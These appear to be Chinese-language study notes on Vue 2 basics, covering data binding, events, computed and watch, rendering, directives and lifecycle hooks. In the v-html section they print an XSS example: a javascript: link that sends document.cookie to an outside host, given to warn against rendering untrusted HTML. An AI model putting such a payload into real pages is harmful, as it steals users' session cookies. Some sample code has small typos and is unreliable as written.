# Vue

- Vue (读音 /vjuː/，类似于 view) 是一套用于构建用户界面的渐进式框架。与其它大型框架不同的是，Vue 被设计为可以自底向上逐层应用。Vue 的核心库只关注视图层，不仅易于上手，还便于与第三方库或既有项目整合。另一方面，当与现代化的工具链以及各种支持类库结合使用时，Vue 也完全能够为复杂的单页应用提供驱动。

## Vue 核心

### Vue 简介

- 借鉴 Angular 的模板和数据绑定
- 借鉴 React 的组件化和虚拟 DOM 技术
  
  

### Vue 特点

1. 遵循 MVVM 模式
2. 编码简洁, 体积小, 运行效率高, 适合移动/PC 端开
3. 它本身只关注 UI, 也可以引入其它第三方库开发
   
   
   
   
   

### 模板语法

- html 中包含了一些 JS 语法代码，语法分为两种，分别为：
  - 插值语法（双大括号表达式）
  - 指令（以 v-开头

#### 插值语法

- 功能: 用于解析标签体内容
- 语法: {{xxx}} ，xxxx 会作为 js 表达式解析

#### 指令语法

- 功能: 解析标签属性、解析标签体内容、绑定事件
- 举例：`v-bind:href = 'xxxx'` ，xxxx 会作为 js 表达式被解析
- 说明：Vue 中有有很多的指令，此处只是用 v-bind 举个例子

### 数据绑定

#### 单向数据绑定

- 语法：`v-bind:href ="xxx"` 或简写为 `:href`
- 特点：数据只能从 data 流向页面

#### 双向数据绑定

- 语法：`v-mode:value="xxx"` 或简写为 `v-model="xxx"`
- 特点：数据不仅能从 data 流向页面，还能从页面流向 data

#### Vue 数据代理

1. Vue 中的数据代理:
   - 通过 vm 对象来代理 data 对象中属性的操作(读/写)
2. Vue 中数据代理的好处:
   - 更加方便的操作 data 中的数据
3. 基本原理
   - 通过 `object.defineProperty()`把 data 对象中所有属性添加到 vm 上.
   - 为每一个添加到 vm 上的属性,都指定一个 getter/setter。
   - 在 getter/setter 内部去操作(读/写)data 中对应的属性。

```
let obj1 = {x:100}
let obj2 = {y:100}
Object.defineProperty(obj2,"x",{
    get(){  // 读取时
        return obj.x
    },
    set(value){  // 修改时
        obj.x=value
    }
})
```



### MVVM 模型

1. M：模型(Model) ：对应 data 中的数据
2. V：视图(View) ：模板
3. VM：视图模型(ViewModel) ： Vue 实例对象
   

### 事件处理

#### 绑定监听

1. 使用`v-on:xxx`或` @xxx` 绑定事件,其中 xxx 是事件名;
2. 事件的回调需要配置在 methods 对象中，最终会在 vm 上;
3. methods 中配置的函数，不要用箭头函数!否则 this 就不是 vm 了;
4. methods 中配置的函数，都是被 Vue 所管理的函数，this 的指向是 vm 或组件实例对象;
5. `@click="demo” `和 `@click="demo($event)” `效果一致，但后者可以传参;

#### 事件修饰符

1. `prevent: `阻止默认事件（常用）;
2. `stop: `阻止事件冒泡（常用）;
3. `once: `事件只触发一次（常用）;
4. `capture:` 使用事件的捕获模式;
5. `self:` 只有 event.target 是当前操作的元素时才触发事件:
6. `passive: `事件的默认行为立即执行,无需等待事件回调执行完毕;

#### 按键修饰符

1. Vue 中常用的按键别名:
   - 回车 => `enter`
   - 删除 => `delete `(捕获“删除”和“退格”键)
   - 退出 => `esc`
   - 空格 => `space`
   - 换行 => `tab `(特殊,必须配合 keydown 去使用)
   - 上 => `up`
   - 下 => `down`
   - 左 => `left`
   - 右 => `right`
2. Vue 未提供别名的按健，可以使用按健原始的 key 值去绑定，但注意要转为 kebab-case(短横线命名）
3. 系统修饰键（用法特殊）:ctrl、alt、shift、meta
   (1).配合 keyup 使用:按下修饰健的同时，再按下其他键，随后释放其他健，事件才被触发。
   (2).配合 keydown 使用:正常触发事件。
4. 也可以使用 keyCode 去指定具体的按键（不推荐)
5. Vue.config. keyCodes.自定义键名=键码,可以去定制按键别名

### 计算属性-computed

> 要显示的数据不存在，要通过计算得来。
> 在 computed 对象中定义计算属性。
> 在页面中使用{{方法名}}来显示计算的结果。

1. 定义:要用的属性不存在,要通过已有属性计算得来。
2. 原理:底层借助了 `objcet.defineproperty `方法提供的 getter 和 setter。
3. get 函数什么时候执行?
   - 初次读取时会执行一次。T
   - 当依赖的数据发生改变时会被再次调用。
4. 优势:与 methods 实现相比，内部有缓存机制（复用），效率更高，调试方便。
5. 备注:
   - 计算属性最终会出现在 vm 上，直接读取使用即可。
   - 如果计算属性要被修改，那必须写 set 函数去响应修改，且 set 中要引起计算时依赖的数据发

### 监视属性-watch

1. 当被监视的属性变化时,回调函数自动调用,进行相关操作
2. 监视的属性必须存在,才能进行监视!!
3. 监视的两种写法:
   - (1).new Vue 时传入 watch 配置
   - (2).通过 vm.$watch 监视

- 深度监视:
  - (1).Vue 中的 watch 默认不监测对象内部值的改变(一层)。
  - (2).配置 deep:true 可以监测对象内部值改变(多层）。
- 备注:
  - (1).Vue 自身可以监测对象内部值的改变，但 Vue 提供的 watch 默认不可以!
  - (2).使用 watch 时根据数据的具体结构，决定是否采用深度监视。

### computed 和 watch 的区别

1. computed 能完成的功能,watch 都可以完成。
2. watch 能完成的功能，computed 不一定能完成，例如: watch 可以进行异步操作。

- 两个重题的小原则:
  - 所被 Vue 管理的函数，最好写成普通函数，这样 this 的指向才是 vm 或组件实例对象。
  - 所有不被 Vue 所管理的函数（定时器的回调函数、ajax 的回调函数等)，最好写成箭头函数，这样 this 的指向才是 vm 或组件实例对象。

### class 与 style 绑定

- 在应用界面中, 某个(些)元素的样式是变化的
- class/style 绑定就是专门用来实现动态样式效果的技术

1. class 样式
   - 写法`:class="xxx"` xxx 可以是字符串、对象、数组。
     - 字符串写法适用于:类名不确定,要动态获取。
     - 对象写法适用于:要绑定多个样式,个数不确定,名字也不确定。
     - 数组写法适用于:要绑定多个样式，个数确定，名字也确定，但不确定用不用。
2. style 样式
   - `:style="{fontsize: xxx}"` 其中 xxx 是动态值。
   - `:style="[a,b]"` 其中 a、b 是样式对象。

### 条件渲染

1. v-if
   - 写法:
     - (1)`.v-if="表达式"`
     - (2)`.v-else-if="表达式"`
     - (3)`.v-else="表达式"`
   - 适用于: 切换频率较低的场景。
   - 特点: 不展示的 DOM 元素直接被移除。
   - 注意: `v-if` 可以和 `:v-else-if`、`v-else `一起使用，但要求结构不能被“打断”。
2. v-show
   - 写法: v-show="表达式"
   - 适用于: 切换频率较高的场景。
   - 特点: 不展示的 DOM 元素未被移除，仅仅是使用样式隐藏掉
3. 备注:
   - 使用 v-if 的时，元素可能无法获取到，而使用 v-show 一定可以获取到。

### 列表渲染

- v-for 指令:
  - 用于展示列表数据
  - 语法: `v-for="(item,index) in xxx" ` `:key="yyy"`
  - 可遍历:数组、对象、字符串(用的很少)、指定次数(用的很少)

### key 的作用

> 面试题:react、 vue 中的 key 有什么作用? (key 的内部原理)

1. 虚拟 DOM 中 key 的作用:
   - key 是虚拟 DON 对象的标识，当数据发生变化时，Vue 会根据【新数据】生成【新的虚拟 DOM】
   - 随后 Vue 进行【新虚拟 DOM】与【旧虚拟 DOM】的差异比较，比较规则如下:
2. 对比规则:
   - 旧虚拟 DOM 中找到了与新虚拟 DOM 相同的 key:
     - 若虚拟 DOM 中内容没变,直接使用之前的真实 DOM !
     - 若虚拟 DOM 中内容变了，则生成新的真实 DOM，随后替换掉页面中之前的真实 DOM.
   - 旧虚拟 DOM 中未找到与新虚拟 DOM 相同的 key
     - 创建新的真实 DOM，随后渲染到到页面。
3. 用 index 作为 key 可能会引发的问题:
   - 若对数据进行:逆序添加、逆序删除等破坏顺序操作:
     - 会产生没有必要的真实 DOM 更新==>界面效果没问题,但效率低。
   - 如果结构中还包含输入类的 DOM:
     - 会产生错误 DOM 更新 ==> 界面有问题。
4. 开发中如何选择 key?:

   - 最好使用每条数据的唯一标识作为 key，比如 id、手机号、身份证号、学号等唯一值。
   - 如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用 index 作为 key 是没有问题的。




### Vue 监视数据原理：

1. vue 会监视 data 中所有层次的数据。
2. 如何监测对象中的数据?
   - 通过 setter 实现监视,且要在 new Vue 时就传入要监测的数据。
     - 对象中后追加的属性，Vue 默认不做响应式处理
     - 如需给后添加的属性做响应式，请使用如下 API:
       - ` Vue.set(target.propertyName/index,value)`或
       - ` vm.$set(target.propertyName/index,value)`
3. 如何监测数组中的数据?
   - 通过包裹数组更新元素的方法实现,本质就是做了两件事:
     - 调用原生对应的方法对数组进行更新。
     - 重新解析模板，进而更新页面。
4. 在 Vue 修改数组中的某个元素一定要用如下方法:
   - 使用这些 API:`push()、pop()、shift()、unshift()、splice()、sort()、reverse()`
   - `vue.set()`或 `vm.$set()`
5. 特别注意:`Vue.set()` 和 `vm.$set() `不能给 vm 或 vm 的根数据对象添加属性!!!

### 收集表单数据

- 若:`<input type="text" />`，则 v-model 收集的是 value 值，用户输入的就是 value 值。
- 若:`<input type="radio" />`，则 v-model 收集的是 value 值，且要给标签配置 value 值。
- 若: `<input type="checkbox" / >`
  - 没有配置 input 的 value 属性，那么收集的就是 checked(勾选 or 未勾选，是布尔值)
  - 配置 input 的 value 属性:
    - v-model 的初始值是非数组，那么收集的就是 checked(勾选 or 未勾选，是布尔值)
    - v-model 的初始值是数组，那么收集的的就是 value 组成的数组
- 备注:v-model 的三个修饰符:
  - `lazy`: 失去焦点再收集数据
  - `number`: 输入字符串转为有效的数字
  - `trim`: 输入首尾空格过滤

### 过滤器

- 定义:对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）.
- 语法:
  - 1.注册过滤器:`Vue.filter(name,callback)`或`new Vue{filters:{}}`
  - 2.使用过滤器:{{ xxx │ 过滤器名 }}或` v-bind:属性="xxx │ 过滤器名"`
- 备注:
  - 1.过滤器也可以接收额外参数、多个过滤器也可以串联
  - 2.并没有改变原本的数据,是产生新的对应的数据

### 内置指令

- `v-bind:`单向绑定解析表达式,可简写为`:xxx`
- `v-model: `双向数据绑定
- `v-for:`遍历数组/对象/字符串
- `v-on:` 绑定事件监听，可简写为`@`
- `v-if: `条件渲染(动态控制节点是否存存在)
- `v-else:`条件渲染(动态控制节点是否存存在)
- `v-show:`条件渲染(动态控制节点是否展示)
- `v-text` 指令:
  - 作用:向其所在的节点中渲染文本内容。
  - 与插值语法的区别: `v-text` 会替换掉节点中的内容，{{xx}}则不会。
- `v-html` 指令:
  - 作用:向指定节点中渲染包含 html 结构的内容。
  - 与插值语法的区别:
    - `v-html` 会替换掉节点中所有的内容，`{{xx}}`则不会。
    - `v-html `可以识别 html 结构。 3.
  - 严重注意: `v-html` 有安全性问题!!!! - 在网站上动态渲染任意 HTML 是非常危险的,容易导致 XSS 攻击。 - 一定要在可信的内容上使用 `v-html`，永不要用在用户提交的内容上!
- `v-cloak` 指令（没有值）:

  - 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性。
  - 使用:

  ```
   <style>
       [v-cloak] {
           display: none;
       }
   </style>
  ```

  - 配合 `v-cloak `可以解决网速慢时页面展示出{{xxx}}的问题。

- `v-once`指令:

  - `v-once`所在节点在初次动态渲染后，就视为静态内容了。
  - 以后数据的改变不会引起`v-once`所在结构的更新，可以用于优化性能。

- `v-pre`指令:

  - 跳过其所在节点的编译过程。
  - 可利用它跳过:没有使用指令语法、没有使用插值语法的节点，会加快编译。

  #### v-html cookie 安全问题

  `<a href=javascript:location.href="http://www.baidu.com?" +dotument.cookie>点击偷走cookie</a> `
  

### 自定义指令

- 定义语法：
  - 局部指令：
  ```
  new Vue({                               new Vue({
     direcatives:{指令名:配置对象}   或者       direcatives{指令名:回调函数}
   })                                     })
  ```
- 配置对象中常用的 3 个回调:
  - `bind:` 指令与元素成功绑定时调用.
  - `inserted:` 指令所在元素被插入页面时调用.
  - ` update:` 指令所在模板结构被重新解析时调用.
- 备注：
  - 指令定义时不加 `v-，但使用时要加 `v-`;
  - 指令名如果是多个单词，要使用`kebab-case`命名方式，不要用`camelCase`命名。

### Vue 生命周期

- 又名: 生命周期回调函数、生命周期函数、生命周期钩子。
- 是什么: Vue 在关键时刻帮我们调用的一些特殊名称的函数。
- 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
- 生命周期函数中的 this 指向是 vm 或组件实例对象。

- 常用的生命周期钩子:
  - `mounted:`发送 ajax 请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】
  - `beforeDestroy:`清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。
- 关于销毁 Vue 实例
  - 销毁后借助 Vue 开发者工具看不到任何信息。
  - 销毁后自定义事件会失效,但原生 DOM 事件依然有效。
  - 一般不会在 `beforeDestroy` 操作数据，因为即便操作数据，也不会再触发更新流程了。


## Vue 组件化编程

### 模块与组件、模块化与组件化

- 模块
  - 理解: 向外提供特定功能的 js 程序, 一般就是一个 js 文件
  - 为什么: js 文件很多很复杂
  - 作用: 复用 js, 简化 js 的编写, 提高 js 运行效
- 模块化
  - 当应用中的 js 都以模块来编写的, 那这个应用就是一个模块化的应用。
- 组件
  - 理解: 用来实现局部(特定)功能效果的代码集合(html/css/js/image…..)
  - 为什么: 一个界面的功能很复杂
  - 作用: 复用编码, 简化项目编码, 提高运行效率
- 组件化
  - 当应用中的功能都是多组件的方式来编写的, 那这个应用就是一个组件化的应用。


